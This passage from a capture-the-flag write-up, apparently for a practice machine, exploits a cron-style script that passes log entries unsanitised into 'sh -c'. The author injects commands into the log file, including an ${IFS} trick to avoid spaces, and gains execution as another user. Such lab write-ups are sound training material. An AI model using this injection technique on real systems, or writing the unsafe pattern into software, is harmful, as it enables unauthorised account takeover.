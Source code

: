 ```python
...
else:
    with open('/home/kid/logs/hackers', 'a') as f:
        f.write(f'[{datetime.datetime.now()}] {srcip}\n')
    return render_template('index.html', sserror="stop hacking me - well hack you back")
```
This file is picked up by scanlosers.sh in the pwn user's directory:
```bash
kid@scriptkiddie:/home/pwn$ cat scanlosers.sh 
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```
To see the functionality of this in real time I follow the file, and then provide some invalid input to searchsploit.
```bash
kid@scriptkiddie:~/logs$ tail -f hackers
[2021-03-07 03:03:33.888872] 10.10.14.17
tail: hackers: file truncated
```
The file's input is immediately removed after being added in. The pwn user's script takes this output and gets the IP address from it, then performs an nmap scan of the first 10 ports.
```bash
┌──(kali㉿kali)-[~]
└─$ echo "[2021-03-07 03:03:33.888872] 10.10.14.17" | cut -d' ' -f3- | sort -u
10.10.14.17
```
The final line in the file removes all input from it. This effectively means that the pwn user's script will execute a command containing any piece of input that is in the log file. This log file is contained within kid's directory, meaning the current user should be able to write to it.
```bash
kid@scriptkiddie:~/logs$ ls -la
total 8
drwxrwxrwx  2 kid kid 4096 Mar  7 01:31 .
drwxr-xr-x 11 kid kid 4096 Mar  7 01:31 ..
-rw-rw-r--  1 kid pwn    0 Mar  7 03:13 hackers
```
I can test if the script will execute my injected code by echoing some input into a file.
```bash
kid@scriptkiddie:~/logs$ echo ";whoami>/home/pwn/aa;" >> hackers
kid@scriptkiddie:~/logs$ ls /home/pwn
aa  recon  scanlosers.sh
kid@scriptkiddie:~/logs$ cat /home/pwn/aa
pwn
```
It's tricky, because I can't have any spaces in the input without it getting discarded, as the script only takes the first complete line. To get around this I used the `{$IFS}` whitespace variable.
```bash
kid@scriptkiddie:~/logs$ echo ";\$\{IFS\}id\$\{IFS\}>/home/pwn/bb;" >> hackers
kid@scriptkiddie:~/logs$ cat /home/pwn/bb
uid=1001(pwn) gid=1001(pwn) groups=1001(pwn)
```
With this technique I should be able to move and take over this account.
